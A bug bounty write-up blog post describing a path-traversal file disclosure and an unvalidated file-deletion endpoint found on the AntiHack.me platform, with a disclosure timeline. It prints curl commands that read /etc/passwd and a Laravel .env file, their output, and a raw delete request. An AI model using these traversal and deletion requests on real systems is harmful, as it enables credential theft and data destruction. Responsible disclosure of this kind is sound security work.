 ```yaml
---
layout: post
title: How I Found Multiple Vulnerabilities on AntiHack.Me
excerpt: "AntiHack.me is a Singaporean Bug Bounty Platform site. After seeing this platform well known, I decided to create an account there. After successfully creating an account, the user will be provided with information regarding the Bug Bounty Program found at AntiHack, and the AntiHack site itself is included in the program."
tags: [bug hunting, hacking, lfi, lfd]
categories: [bug hunting]
comments: true
image:
  feature: c943919f00e9a4a7cd67a30b257c3ea1-f.png
---
```


AntiHack.me is a Singaporean Bug Bounty Platform site. After seeing this platform well known, I decided to create an account there. After successfully creating an account, the user will be provided with information regarding the Bug Bounty Program found at AntiHack, and the AntiHack site itself is included in the program.

#### VULNERABILITY I (Local File Disclosure)

When accessing the https://www.antihack.me/blog page, the website will display Popup Modal which contains an invitation to subscribe to AntiHack Magazine, which is an E-Zine made by them. The process is by entering some information in the field provided, then pressing the Submit button. After the Submit button is pressed, the user will be directed to the link to download the E-Zine. Following is the form of the link:

```
https://www.antihack.me/filedownload.php?file=AntiHACKJan19Issue.pdf
```

From this structure, it can be seen that the file `filedownload.php` may have a Local File Disclosure vulnerability, where by using this file, we can download sensitive files that are on the server. I tried using curl like this:

```
[root@noobe.io ~]# curl https://www.antihack.me/filedownload.php?file=../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
```

It can be seen that the file `filedownload.php` really has a vulnerability so we can download files on the server. Because the AntiHack.me website uses Laravel, then I try to get the config file, which is in the `.env` file.

```
[root@noobe.io ~]# curl https://www.antihack.me/filedownload.php?file=../../../../var/www/html/.env

DB_CONNECTION=mysql
DB_HOST=localhost
DB_PORT=3306
DB_DATABASE=antihack
DB_USERNAME=antihack
DB_PASSWORD=

MAIL_DRIVER=smtp
MAIL_HOST=smtp.zoho.com
MAIL_PORT=465
MAIL_USERNAME=admin@antihack.me
MAIL_PASSWORD=[ redacted ]
```

From this information, I obtain sensitive information such as user and database passwords. There is even an SMTP user and password used. I tried logging in using the SMTP user and password obtained and it's worked XD.

![AntiHack.Me Zoho Account](/assets/c943919f00e9a4a7cd67a30b257c3ea1-1.png)


#### VULNERABILITY II (IDOR Delete Any File on AntiHack.me Server)

As on other Bug Bounty websites, there is a feature for reporting vulnerability found. There is also an attach file feature to add image or video files to complete the report that we send. After finishing uploading the file on the report form, an X button appears which serves to delete the file that was just uploaded, of course the function is to delete the file if we incorrectly upload the report file.

![AntiHack.Me Delete File Button](/assets/c943919f00e9a4a7cd67a30b257c3ea1-2.png)

When the button is clicked, the process runs like this:

```
POST /php/ajax_remove_file.php HTTP/1.1
Host: www.antihack.me
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.antihack.me/hacker_inbox
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 21
Cookie: [ redacted ]
Connection: close

file=35C2XxQY_400x400.png
```

Unfortunately there is no validation of any files that may be deleted. By manipulating the values of the `file` parameters we can delete any files contained on the AntiHack.me server.

For more details, please see the following GIF:

![AntiHack.Me Delete File GIF](/assets/c943919f00e9a4a7cd67a30b257c3ea1-3.gif)

In my trial I tried to delete files with several different extensions, but I did not try to delete files outside the website folder because I was worried that they might interfere and even damage the website.

Those are some of the vulnerabilities that were found on the Anti Hack.me website. Currently all of these vulnerabilities have been fixed by AntiHack.me.

#### Timeline

```
2019-01-03: Bug reported
2019-01-04: Triaged
2019-01-06: Bug Fixed
2019-01-09: Report Resolved
2019-01-09: Swag Rewarded
```

**References:**

- CWE-200 : Information Exposure
- CWE-284: Improper Access Control